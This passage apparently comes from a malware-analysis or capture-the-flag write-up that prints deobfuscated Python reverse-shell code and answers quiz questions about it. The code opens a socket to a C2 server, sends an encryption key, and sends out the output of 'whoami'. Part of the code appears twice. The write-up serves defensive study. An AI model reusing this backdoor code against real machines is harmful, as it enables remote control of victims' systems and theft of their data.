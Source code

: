 ```
            k = ''.join(random.SystemRandom().choice(string.ascii_letters + string.digits) for _ in range(16))
            client.send(k.encode())
            
            # Send user info
            user = os.popen("whoami").read()
            enc_answer = enc_mes(f"{user}{SEPARATOR}", k)
            client.send(enc_answer)
            client.settimeout(600)

# Main execution
if __name__ == "__main__":
    try:
        # Create socket
        client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        # Connect to C2 server
        client.connect((TARGET_IP, TARGET_PORT))
        
        # Generate random encryption key
        k = ''.join(random.SystemRandom().choice(string.ascii_letters + string.digits) for _ in range(16))
        client.send(k.encode())
        
        # Send user info
        user = os.popen("whoami").read()
        enc_answer = enc_mes(f"{user}{SEPARATOR}", k)
        client.send(enc_answer)
        
        # Set timeout
        client.settimeout(600)
        
        # Delay
        time.sleep(50)
        
        # Start receive thread
        receive_thread = threading.Thread(target=receive, args=(client, k))
        receive_thread.start()
    
    except Exception:
        # Error handling (connection failed, etc.)
        pass

```

**Answer: Py-Fuscate**

### Question 4: What is the IP address and port used by the malware to establish a connection with the Command and Control (C2) server?

After deobfuscating the malicious code, we analyzed the reverse shell's functionality. The code contained hardcoded connection information to the C2 server.
